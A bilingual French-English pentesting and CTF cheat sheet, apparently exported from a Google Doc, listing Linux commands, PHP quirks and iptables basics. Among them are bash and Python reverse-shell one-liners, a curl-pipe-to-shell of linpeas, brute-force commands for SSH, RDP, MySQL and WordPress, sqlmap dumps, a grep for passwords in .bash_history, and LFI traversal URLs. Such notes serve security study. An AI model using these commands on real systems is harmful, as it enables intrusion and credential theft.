# SCIENCE,HACKING AND SECURITY


1. ** Linux command**
* list
* **chown [-option] [-utilisateur][-:groupe] cible1 [-cible2 ..] :**

            **Change le propriétaire et le groupe d’un fichier ou**


            **dossier.**


            **Exemple :**


            **chown linux:users file1**


            **This command will change the ownership of a file named _file1 _to a new owner named _linuxsize _and group _users_.**

* **grep [-options] [-pattern] [-file] :**

            **The grep command is a filter that is used to search for lines matching a specified pattern.**


            **Exemple :**


            **grep “^hello” file1**


            **This command matches all lines that start with ‘hello’.**

* **ps [-options] :**

            **La commande ps affiche les processus machines en cours d'exécution.**


**			**


* **ldd [-options] [-file] :**

            **Cette commande (de l'anglais _List Dynamic Dependencies_) est un [utilitaire](https://fr.wikipedia.org/wiki/Logiciel_utilitaire) [Unix](https://fr.wikipedia.org/wiki/Unix) affichant les [bibliothèques logicielles partagées](https://fr.wikipedia.org/wiki/Biblioth%C3%A8que_logicielle) d'un programme.**

* **printenv [--help] [--version] [variable…] :**

**			Affiche toutes les variables d'environnements.**


* **objdump [-options] [objfile…] :**

**			This command is used to provide thorough information on **


        **object files.**


        **Options :**


* **-TC : Peut servir à observer les fonctions utilisées dans un fichier exécutable.**

**			**


* **size [-options] [objfile…] :**

**		Permet de connaître les différentes sections d'un programme **


        **et de leur adresse mémoire.**


* **strace [option] command :**

            **The strace command in Linux lets you trace system calls and signals (ltrace do almost the same).**


        **Options :**

* **-c : print in summary**
* **-n : all system calls**
* **wc [option].. [entry].. :**

            **wc stands for word count. Command for printing newline, word and byte counts for files.**


            **Example:**


            

<p id="gdcalert1" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image1.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert2">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





* **“4” : number of characters.**

<table>
  <tr>
   <td>
<strong>1</strong>
   </td>
   <td><strong>1</strong>
   </td>
   <td><strong>4</strong>
   </td>
  </tr>
  <tr>
   <td><strong>number of lines</strong>
   </td>
   <td><strong>number of words</strong>
   </td>
   <td><strong>number of bytes</strong>
   </td>
  </tr>
</table>


* **fg [cible]:**

            **The fg command switches a job running in the background into the foreground. Can be used with “&” ( put in background and then put in foreground ).**

* **file [FILE]:**

** 			Print the file type:**

**			**


* **strip [options] [FILE] :**

            **The strip command discards symbols from compiled object [files](https://www.computerhope.com/jargon/o/objefile.htm). It can also be useful for making it more difficult to reverse-engineer the[ compiled code](https://www.computerhope.com/jargon/c/compile.htm).**

* **readelf [options] [ELF-FILE]**

            **readelf displays information about one or more ELF format object files. The options control what particular information to display.**

* **hachoir-subfile [FILE] :**

            **Extrait des fichiers (non compressés, non chiffrés et non fragmentés) contenus dans d'autres fichiers.**

* **su [USER_NAME] :**

            **Switch the current user.**

* **pstree [OPTIONS] :**

            **Affiche l’arborescence des processus.**

* **mktemp [OPTIONS] ... :**

            **Create a temporary file or directory.**

* **trap [OPTIONS] ... :**

            **Defines and activates handlers to be run when the shell receives signals or other special conditions..**


**Some useful commands and tool :**


<table>
  <tr>
   <td><strong>tail --bytes=+425 crackme_wtf > Crackmew</strong>
   </td>
   <td><strong>Write the file “crackme_wtf” from the 425 bytes in a file named “Cracknew”.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>man 3 [SYSTEM_FUNCTION]</strong>
   </td>
   <td><strong>Display the prototype of the function</strong>
   </td>
  </tr>
  <tr>
   <td><strong>uftrace --force -a ./random</strong>
   </td>
   <td><strong>Detect dynamic library calls</strong>
   </td>
  </tr>
  <tr>
   <td><strong>objdump -d [FILE]</strong>
   </td>
   <td><strong>Display assembler contents of executable sections</strong>
   </td>
  </tr>
  <tr>
   <td><strong>export -n [ENV_VAR]</strong>
   </td>
   <td><strong>Supprime la variable d'environnement</strong>
   </td>
  </tr>
  <tr>
   <td><strong>readelf -d [FILE_PATH] | grep -e RPATH -e RUNPATH</strong>
   </td>
   <td><strong>Read the dynamic section to extract the RPATH/RUNPATH.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>objdump -x [FILE_PATH] | grep RPATH</strong>
   </td>
   <td><strong>to check if an application uses RPATH options.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>objdump -x [FILE_PATH] | grep RUNPATH</strong>
   </td>
   <td><strong>to check if an application uses RUNPATH options.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>cat [FILE1] > [FILE2]</strong>
   </td>
   <td><strong>Copier le contenu d’un fichier dans un autre en l'écrasant ( “>>” pour pas l’écraser )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>sudo -u [USER_NAME] [FILE_EXECUTED]</strong>
   </td>
   <td><strong>Executer un fichier avec un autre utilisateur</strong>
   </td>
  </tr>
  <tr>
   <td><strong>COMMAND bash : nm ./binary15 | grep "shell"</strong>
   </td>
   <td><strong>Affiche l’adresse de la fonction “shell” du programme “binary15”.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>./ch7  `python -c "print 'a'*512"`</strong>
   </td>
   <td><strong>Forge l'argument pour le programme “ch7” avec une syntax python.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>objdump -s ch7</strong>
   </td>
   <td><strong>Display the full contents of all sections requested of ch7 file</strong>
   </td>
  </tr>
  <tr>
   <td><strong>export CHALL=$( echo -n -e '\x96\x55' )</strong>
   </td>
   <td><strong>Write Bytes en Bash</strong>
   </td>
  </tr>
  <tr>
   <td><strong>mv toto.php test</strong>
   </td>
   <td><strong>Move toto.php to the directory “test”</strong>
   </td>
  </tr>
  <tr>
   <td><strong>ls -a</strong>
   </td>
   <td><strong>Print hidden file</strong>
   </td>
  </tr>
  <tr>
   <td><strong>find /home -name .bash_history</strong>
   </td>
   <td><strong>Search for all the files named .bash_history in the /home directory</strong>
   </td>
  </tr>
  <tr>
   <td><strong>find /home -name .bashrc -exec grep [PATTERN] {} \;</strong>
   </td>
   <td><strong>Search for all the files named .bashrc in the /home directory and then </strong>
<p>
<strong>for each file, extract [PATTERN] word inside it.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>find . -name .bash_history -exec grep -A 1 '^passwd' {} \;</strong>
   </td>
   <td><strong>Search for all the files named .bash_history in the .directory.</strong>
<p>
<strong>for each file, extract “passwd” word inside it in case it is placed first in the line (“^”) and print one more following line (“-A 1).</strong>
<p>
<strong>Utile si quelqu’un a utilisé la commande passwd puis écrit son mot de passe dans le terminal.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>ls -ld [DIRECTORY]</strong>
   </td>
   <td><strong>print permission on a directory</strong>
   </td>
  </tr>
  <tr>
   <td><strong>tar -xzvf [ FILE ][tar.gz | tgz ]</strong>
   </td>
   <td><strong>Décompresser le fichier file de type tar.gz ou tgz.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>tar -jxvf [ FILE ].tbz</strong>
   </td>
   <td><strong>Décompresser le fichier file de type tbz.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>echo -n "OR9hcp18+C1bChK10NlRRg==" | base64 -D | hexdump -C</strong>
   </td>
   <td><strong>décode la chaîne de caractère en base64 puis l’affiche en Hexa</strong>
   </td>
  </tr>
  <tr>
   <td><strong>python -m SimpleHTTPServer</strong>
   </td>
   <td><strong>Ouvre un serveur web rapidement</strong>
   </td>
  </tr>
  <tr>
   <td><strong>find / -writeable -type d 2>/dev/null</strong>
   </td>
   <td><strong>Afficher tous les fichiers autorisés en écriture.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>bash -i >& /dev/tcp/[HOST]/[PORT] 0>&1</strong>
   </td>
   <td><strong>Reverse shell in bash</strong>
   </td>
  </tr>
  <tr>
   <td><strong>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("&lt;IP>",&lt;PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/</strong>
<p>
<strong>bin/sh","-i"]);'</strong>
   </td>
   <td><strong>reverse shell en python ( exécution bash )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>python -c "import pty;pty.spawn('/bin/bash')"</strong>
   </td>
   <td><strong>Avoir une bonne interface sur le shell</strong>
   </td>
  </tr>
  <tr>
   <td><strong>mv [FILE1] [FILE2]</strong>
   </td>
   <td><strong>rename a file</strong>
   </td>
  </tr>
  <tr>
   <td><strong>curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh</strong>
   </td>
   <td><strong>Install and Run linpeas.sh</strong>
   </td>
  </tr>
  <tr>
   <td><strong>john --wordlist=/usr/share/wordlists/rockyou.txt shadowfile</strong>
   </td>
   <td><strong>Brute les hash du fichier /etc/shadow</strong>
   </td>
  </tr>
  <tr>
   <td><strong>sqlmap -r [FILE] --dbs --batch</strong>
<p>
<strong>sqlmap -r [FILE] -D [DATABASE_NAME] -T [TABLES_NAMES] --dump --batch</strong>
   </td>
   <td><strong>sqlmap avec un fichier ou se retrouve la forme de la requête avec les paramètre</strong>
<p>
<strong>qu’on essaye d’exploiter.</strong>
<p>
<strong>-D : vise une database précise.</strong>
<p>
<strong>-T : table précise</strong>
   </td>
  </tr>
  <tr>
   <td><strong>hydra -L [wordlist_user] -P [wordlist_passwd] [IP/DOMAINE] -f </strong>
<p>
<strong>http-get [URL_OF_LOGIN_PAGE]</strong>
   </td>
   <td><strong>BruteForce a certain login page o</strong>
   </td>
  </tr>
  <tr>
   <td><strong>dirb [URL] -u [USERNAME:PASSWD]</strong>
<p>
<strong>-X [.EXTENSION,.EXTENSION,...]</strong>
   </td>
   <td><strong>bruteforce un URL accessible avec un username/passwd </strong>
   </td>
  </tr>
  <tr>
   <td><strong>echo "[HEXA_STRING]" | xxd -p -r</strong>
   </td>
   <td><strong>Convertir une chaîne hexadécimale en ASCII</strong>
   </td>
  </tr>
  <tr>
   <td><strong>hydra -l root -P /usr/share/wordlists/rockyou.txt &lt;IP> mysql</strong>
   </td>
   <td><strong>brute password sur mysql avec hydra ( sur le port ouvert pour )</strong>
<ul>

<li><strong>l : username</strong>

<li><strong>P : password to test</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td><strong>mysql -h &lt;IP> -u root -p robert</strong>
   </td>
   <td><strong>Se connecte sur la database mysql de l'hôte &lt;IP> avec le compte root et le mot de passe robert</strong>
   </td>
  </tr>
  <tr>
   <td><strong>gobuster dir -u [IP_ADDRESS] -w /usr/share/dirb/wordlists/common.txt -x php,php.bak,html,txt,bak,old -s 200</strong>
   </td>
   <td>
<ul>

<li><strong>dir : mode bruteforce sur les directories </strong>
<strong>Bruteforce by specific some extensions</strong>
<p>


<p id="gdcalert2" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image2.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert3">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>




</li>
</ul>
   </td>
  </tr>
  <tr>
   <td><strong>gobuster vhost -u [IP_ADDRESS] -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt | grep "Status: 200"</strong>
   </td>
   <td><strong>In vhosts mode the tool is checking if the subdomain exists by visiting the formed url and verifying the IP address.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>/usr/share/john/ssh2john.py [RSA/DSA/EC/OpenSSH private key file(s)]</strong>
   </td>
   <td><strong>Convert the private encrypted keys in the file provided into a crackable hash for John ( to find ssh password for example ).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>pspy64s</strong>
   </td>
   <td><strong>Help us enumerate pesky files or permission of different files across the system.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>scp '-P [PORT]' [REMOTE_HOST_NAME]@[IP]:[PATH_FILE] [INTERN_PATH]</strong>
<p>
<strong>exemple : scp '-P 2221' [SOURCE] [DESTINATION]</strong>
<p>
<strong>scp '-P 2225' app-systeme-ch73@challenge05.root-me.org:/challenge/app-systeme/ch73/ch73.exe /home/kali</strong>
   </td>
   <td><strong>Télécharger un fichier depuis un machine distante SSH</strong>
   </td>
  </tr>
  <tr>
   <td><strong>unzip myfile.zip</strong>
   </td>
   <td><strong>Dézipper un file .zip</strong>
   </td>
  </tr>
  <tr>
   <td><strong>hydra -L [USERS_WORDLIST_FILE] -p [PASSWD] [IP] ssh</strong>
   </td>
   <td><strong>BruteForce ssh credentials with one password</strong>
   </td>
  </tr>
  <tr>
   <td><strong>netdiscover</strong>
<p>
<strong>arp-scan --localnet</strong>
   </td>
   <td><strong>Découvre toutes les hosts dans un même réseau.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>wpscan --url “[URL]” --enumerate</strong>
   </td>
   <td><strong>Trouver des vulnérabilité si il y a Wordpress utiliser</strong>
   </td>
  </tr>
  <tr>
   <td><strong>wpscan --url “[URL]” -U [USER_NAME] -P [WORDLIST]</strong>
   </td>
   <td><strong>Bruteforcer le mdp d’un user sur wordpress</strong>
   </td>
  </tr>
  <tr>
   <td><strong>cewl</strong>
<p>
<strong>cewl “[URL]” > cewl3.txt</strong>
   </td>
   <td><strong>CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a list of words which can then be used for password crackers such as John the Ripper</strong>
   </td>
  </tr>
  <tr>
   <td><strong>tr -d ‘\n’ [TEXT]</strong>
   </td>
   <td><strong>Remove ‘\n’ from the input text.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>sudo update-alternatives --config java</strong>
   </td>
   <td><strong>Changer la configuration de java</strong>
   </td>
  </tr>
  <tr>
   <td><strong>ftp [IP]</strong>
   </td>
   <td><strong>Se connecter sur le port Ftp</strong>
   </td>
  </tr>
  <tr>
   <td><strong>dig @[IP] [DOMAIN] axfr</strong>
   </td>
   <td><strong>Can help to find subdomain on a given domain</strong>
   </td>
  </tr>
  <tr>
   <td><strong>dirsearc</strong>h
   </td>
   <td><strong>For Directory brute forcing</strong>
   </td>
  </tr>
  <tr>
   <td><strong>“Firefox_Decrypt”</strong>
   </td>
   <td><strong>Obtain credentials of FireFox navigateur from it directory on Linux</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td><strong>nikto -h http://192.168.1.103/dav/</strong>
   </td>
   <td><strong>Nikto is a popular Web server scanner that tests Web servers for dangerous files/CGIs, outdated server software and other issues. It also performs generic and server type specific checks</strong>
<p>
<strong>Also Provide if HTTP PUT method is allowed.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>cadaver [URL/dav/]</strong>
<p>
<strong>{ CAVAVER_INTERFACE : }put [REVERSE_SHELL.PHP]</strong>
   </td>
   <td><strong>Cadaver is a command line that enables the uploading and downloading of a file on WebDAV.</strong>
<p>
<strong>To verify whether the file is uploaded or not, run the URL: [URL]/dav/ on the browser.</strong>
<p>


<p id="gdcalert3" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image3.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert4">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>




   </td>
  </tr>
  <tr>
   <td><strong>php -S localhost:8000</strong>
   </td>
   <td><strong>Serveur php</strong>
   </td>
  </tr>
  <tr>
   <td><strong>knock [IP] 7469 8475 9842 .. [PORT]</strong>
   </td>
   <td><strong>Effectue une séquence pour le “Port knocking “ Après que la bonne séquence est effectuée, le port en question s’ouvre ( n’est plus filtered . </strong>
   </td>
  </tr>
  <tr>
   <td><strong>fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' numbers.zip</strong>
   </td>
   <td><strong>bruteforce zip password</strong>
   </td>
  </tr>
  <tr>
   <td><strong>crunch &lt;min> &lt;max> [OPTIONS …]</strong>
   </td>
   <td><strong>Generate Custom wordlist :</strong>
<p>
<strong>“&lt;min>&lt;max>” : size of the generated words</strong>
   </td>
  </tr>
  <tr>
   <td><strong>gcc … -static ….</strong>
   </td>
   <td><strong>L’option static dans les paramètres de compilation permet en quelque sorte d’intégrer les bibliothèques dynamiques à notre binaire plutôt que de faire une liaison. </strong>
<p>
<strong>La conséquence est que le binaire aura une taille plus conséquente. </strong>
<p>
<strong>Cela rend une attaque de type ROP largement plus facile à effectuer. :)</strong>
   </td>
  </tr>
  <tr>
   <td><strong>chisel [OPTIONS]</strong>
   </td>
   <td><strong>Chisel is a fast TCP tunnel, transported over HTTP, secured via SSH</strong>
   </td>
  </tr>
  <tr>
   <td><strong>showmount -e 192.168.10.10</strong>
   </td>
   <td><strong>showmount command shows information about an NFS server</strong>
<p>
<strong>-e : Print the list of exported filesystems</strong>
   </td>
  </tr>
  <tr>
   <td><strong>XSSstrike</strong>
   </td>
   <td><strong>Puissant Scanner de XSS</strong>
   </td>
  </tr>
  <tr>
   <td><strong>find . -name \*.xml</strong>
   </td>
   <td><strong>Find all XML file in current directory </strong>
   </td>
  </tr>
  <tr>
   <td><strong>ln -s [chemin/vers/le/dossier/existant] </strong>
   </td>
   <td><strong>Create a symbolic link</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Mono [FILE.EXE] --options</strong>
   </td>
   <td><strong>Execute .exe on linux</strong>
   </td>
  </tr>
  <tr>
   <td><strong>chaosreader [FILE.PCAP]</strong>
   </td>
   <td><strong>This tool will analyze and extract session information and files from .PCAP</strong>
   </td>
  </tr>
  <tr>
   <td><strong>http://domxssscanner.geeksta.net</strong>
   </td>
   <td><strong>DOM based sink scanner</strong>
   </td>
  </tr>
  <tr>
   <td><strong>searchsploit -w [MOT_GREP] [MOT_GREP] [MOT_GREP]</strong>
   </td>
   <td><strong>search vulnérabilité pour les mots recherchées ( linux, DB, … ) en affichant le liens vers exploit-db</strong>
   </td>
  </tr>
  <tr>
   <td><strong>searchsploit [MOT_GREP] [MOT_GREP] [MOT_GREP]</strong>
   </td>
   <td><strong>search vulnérabilité pour les mots recherchées ( linux, DB, … ) en affichant le path ( sur Kali ) vers un fichier.c pour effectuer l’exploitation de la vuln.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>hash-identifier</strong>
   </td>
   <td><strong>Pour Identifier le type d’un hash</strong>
   </td>
  </tr>
  <tr>
   <td><strong>ht</strong>
   </td>
   <td><strong>editeur cool sur linux ( fonctionne avec les touches F1,F2,F3,... )</strong>
   </td>
  </tr>
  <tr>
   <td>tar -zcvf shell.tar.gz shell.php
   </td>
   <td>to tar and zip the reverse shell file
   </td>
  </tr>
  <tr>
   <td><strong>sudo passwd [nom_utilisateur]</strong>
   </td>
   <td><strong>changer le mdp d’un utilisateur</strong>
   </td>
  </tr>
  <tr>
   <td><strong>zip -r [OUTPUTFILE] [DIR]</strong>
   </td>
   <td><strong>Zipper un dossier</strong>
   </td>
  </tr>
  <tr>
   <td><strong>aquatone</strong>
   </td>
   <td><strong>Find subdomains, port scan , discover vuln ...</strong>
   </td>
  </tr>
  <tr>
   <td><strong>sudo netstat -plten | grep [PORT]</strong>
<p>
<strong>kill -9  [PROCESS_ID]</strong>
   </td>
   <td><strong>Kill a process running on a port</strong>
   </td>
  </tr>
  <tr>
   <td><strong>hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.102</strong>
   </td>
   <td><strong>Bruteforce RDP</strong>
   </td>
  </tr>
  <tr>
   <td><strong>(python -c "print 'a'*50";cat) | ./ch65</strong>
   </td>
   <td><strong>argument pour la fonction read</strong>
   </td>
  </tr>
  <tr>
   <td><strong>dmesg</strong>
   </td>
   <td><strong>commande sur les systèmes d'exploitation de type Unix qui affiche la mémoire tampon de message du noyau.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>lsmod</strong>
   </td>
   <td><strong>Connaître tous les modules du kernel actifs ( Un module est un morceau de code permettant d'implémenter des fonctionnalités au noyau ).</strong>
<p>
<strong>Les modules sont exécutés dans l'espace mémoire du noyau.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>modinfo [ NAME_MODULE]</strong>
   </td>
   <td><strong>get info on kernel module</strong>
   </td>
  </tr>
  <tr>
   <td><strong>ps -eaf</strong>
   </td>
   <td><strong>check the processes running on a machine</strong>
   </td>
  </tr>
  <tr>
   <td><strong>capsh --print</strong>
   </td>
   <td><strong>Check the capabilities provided in a docker container</strong>
   </td>
  </tr>
  <tr>
   <td><strong>fdisk -l</strong>
   </td>
   <td><strong>List the disks on the local machine.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>chroot ./ [COMMAND]</strong>
   </td>
   <td><strong>La commande chroot permet de changer le répertoire racine vers un nouvel emplacement.</strong>
<p>
<strong>COMMAND : command to execute just after chroot.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nc -v -n -w2 -z [IP] 1-65535</strong>
   </td>
   <td><strong>alternative to scan port without nmap ( with netcat )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nc 172.17.0.1 2222</strong>
   </td>
   <td><strong>Identify the service running on port 2222 on the machine with the IP address 172.17.0.1.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>cat sshd_config | grep PermitRootLogin</strong>
   </td>
   <td><strong>Check whether SSH root login is permitted</strong>
   </td>
  </tr>
  <tr>
   <td><strong>sessions </strong>
   </td>
   <td><strong>MSFCONSOLE : list all sessions</strong>
   </td>
  </tr>
  <tr>
   <td><strong>sessions -i 1</strong>
   </td>
   <td><strong>MSFCONSOLE : enter in meterpreter mode on a session.</strong>
   </td>
  </tr>
  <tr>
   <td>zip2john chall.zip > zippy
<p>
john zippy --wordlist=/usr/share/wordlists/rockyou.txt
   </td>
   <td>Brute force ZIP file.
   </td>
  </tr>
  <tr>
   <td>nbtscan-1.0.35.exe 192.168.1.0/24
   </td>
   <td>Scan Netbios name and dc
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* Nmap commands


<p id="gdcalert4" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image4.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert5">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





2.  About PHP
* PHP - Difference between ‘ and “:

**			Single-quoted strings doesn’t consider special case ( like ‘$’ for**


        **variable,‘\n’ for newline ,..).**


        **Double-quoted strings are considered special cases.**


            **So for the performance people: use single quote.**


* **This language is written in “C”.**
* PHP - Path and dot truncation :

**			On most PHP installations, a filename longer than 4096**


        **bytes will be cut off so any excess chars will be thrown **


        **away.**


        **Example :**


**http://example.c<code>om/index.php?page=../../../etc/passwd............[ADD MORE]</code></strong>


```
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd

```


* PHP - Loose comparaison :

            **Faire attention à utiliser “===” à la place de “==” sur des comparaisons sensibles ( voir tableau associé ).**


            **	      Examples Loose comparaison**


<table>
  <tr>
   <td>
<strong>5 == “5”</strong>
   </td>
   <td><strong>PHP will attempt to convert the string to an integer, meaning that 5 == "5" evaluates to true. </strong>
   </td>
  </tr>
  <tr>
   <td><strong>5 == "5 of something"</strong>
   </td>
   <td><strong>PHP will effectively convert the entire string to an integer value based on the initial number. The rest of the string is ignored completely.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>0 == "Example string"</strong>
   </td>
   <td><strong>Evaluated true. PHP treats this entire string as the integer 0.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>TRUE == "Example string"</strong>
   </td>
   <td><strong>Evaluated true.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>'0e1' == '00e2'== '0e1337'(que des nombre après le “e”) == '0'</strong>
   </td>
   <td><strong>“0e[NOMBRE]” est traité par PHP comme 0 à la puissance [NOMBRE]</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* PHP - preg_replace exploit :

        **Exemple : [preg_replace](http://www.php.net/preg_replace)("/a/e","print_r(scandir('.'))","abcd");**

* **Sur cette exemple, la commande change la lettre “_a_” dans “_abcd_” par l'expression du milieu.**

        **	**

* **le “/e” sur le premier champ permet d'exécuter la commande sur le champ de au milieu.**

**		**

**Le rôle de PHP est de générer du code HTML, code qui est ensuite envoyé au client de la même manière qu'un site statique.**


* **Parmi les concurrents de PHP, on peut citer les suivants : **
    * **ASP.NET ( bien connu des développeurs C# ).**
    * **Ruby on Rails ( utilise avec le langage Ruby ).**
    * **Django ( utilise le langage python ).**
    * **[JSP, JRE, …] pour le langage JAVA.**
* 

<p id="gdcalert5" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image5.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert6">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Cookies vs. sessions ( no PHP ) :


<p id="gdcalert6" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image6.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert7">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





<p id="gdcalert7" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image7.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert8">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





**An implementation :**

**Store a unique cookie value on the client, and store persistent data in the database along with that cookie value. Then on page requests I matched up those values and had my persistent data without letting the client control what that was.**


3.  Iptables
* **Iptables can be run only by root.**
* **Netfilter CHAINS :**
    * **INPUT : used for filtering incoming packets. Out host is the packet destination**
    * **OUTPUT : used for filtering outgoing packets. Our host is the source of the packet.**
    * **FORWARD : used for filtering routed packets. Our host is router.**
    * **PREROUTING : used for DNAT / Port Forwarding.**
    * **POSTROUTING : used for SNAT ( MASQUERADE ).**
* **You can create your own chain.**
